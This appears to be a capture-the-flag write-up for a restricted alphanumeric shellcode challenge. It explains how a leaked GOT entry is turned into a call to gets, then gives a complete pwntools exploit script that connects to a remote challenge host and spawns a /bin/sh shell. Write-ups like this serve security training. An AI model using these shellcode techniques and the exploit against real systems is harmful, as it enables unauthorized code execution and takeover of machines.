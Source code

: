 This is the second of two challenges.

This one is more restricted than the first.

You can save shellcode up to 16bytes, alphanumeric only then execute up to 6 of them.

The return value in EAX of shellcode is printed in hexadecimal after the shellcode execution.

Unlike the first of the serie, there is no argument that can be passed to the shellcode.

The shellcodes are executed in a RWX segment.

When entering the shellcode we saw that:

* EAX point to the mapped zone (shellcode called by a call eax)
* EDX points to the end of the shellcode (EAX+16 so)
* EBX point to the GOT (fullrelro , non writable)

Our strategy will be:

First we dump some GOT entries to identify the remote libc version
then we use https://libc.blukat.me/ website to identify it.

it was:  libc6-i386_2.23-0ubuntu11.2_amd64.so
same version than the first challenge.

So now that we know the libc version,
* setvbuf function offset in libc is 0x5f810
* gets function offset in libc is 0x5e8a0

so if we read setvbuf address, and do a xor 0x10b0 on it.. we will have gets address,

but off course we can not write in GOT as the executable is FULLRELRO.

we gonna send a first alphanumeric shellcode to read the GOT entry of setup,

then store it further in the shellcode mapped zone , for the others shellcode usage..

then the two next shellcodes, we xor the lsb with 0xb0,  then the second byte with 0x10

now our stored address is changed to gets function address.



The last shellcode will, get back this value, push our mapped zone address on stack, 

to use as gets function argument. then return to gets..

Then we will send a normal shellcode this time, with no restrictions, only the carriage return will end gets input.

We will write on the mapped shellcode zone where we are, then we return to it..

The last payload will be a execve('/bin/sh') shellcode, the one from pwntools.

And...Badaboom !

We got shell ;)

*Nobodyisnobody for RootMeUpBeforeYouGoGo

```python
from pwn import *

host, port = "151.236.114.211", "17183"
context.arch = 'i386'

def save_shellcode(shellcode):
    r.sendlineafter("> ", "1")
    r.sendafter("shellcode: ", shellcode)

def run_shellcode(idx):
    r.sendlineafter("> ", "4")
    r.sendlineafter("idx: ", str(idx))

# first shellcode get setvbuf address in got, and store it for later
sc1 = asm("""
    push 0x41
    pop eax
    xor eax,[ebx+0x30]
    xor al,0x41
    xor [edx+0x30],eax
""")
# 2nd shellcode xor lsb byte of stored address
sc2 = asm("""
	push 0x41
	pop eax
	xor al,0x41
	dec eax
	xor	al,0x4f
	xor	[edx+0x30],al
""")
# 3rd shellcode xor second byte of stored address
sc3 = asm("""
	push 0x41
	pop	eax
	xor al,0x51
    xor     [edx+0x31],al
""")

# now the stored setvbuf address is changed to gets address, we call gets on ourselves, execution will continue in our second shellcode
sc4 = asm("""
	push 0x41
	pop	eax
	xor al,0x41
	xor eax,[edx+0x30]
	push edx
	push edx
	push eax
""")

# pad the shellcodes to the right length
sc1 = sc1.ljust(16,'O')
sc2 = sc2.ljust(16,'O')
sc3 = sc3.ljust(16,'O')
sc4 = sc4.ljust(16,'O')

r = remote(host, port)

# send 1st shellcode
save_shellcode(sc1)
run_shellcode(0)
# leak setvbuf (not really needed, just for info)
leak1 = int(r.recvuntil("===", drop=True).splitlines()[0].split(' = ')[1],16)
print('leak setvbuf = '+hex(leak1))
# send 2nd shellcode
save_shellcode(sc2)
run_shellcode(1)
# send 3rd shellcode
save_shellcode(sc3)
run_shellcode(2)
# send last shellcode
save_shellcode(sc4)
run_shellcode(3)
# send second payload
r.sendline(asm(shellcraft.linux.sh()))

#enjoy shell
r.interactive()

```

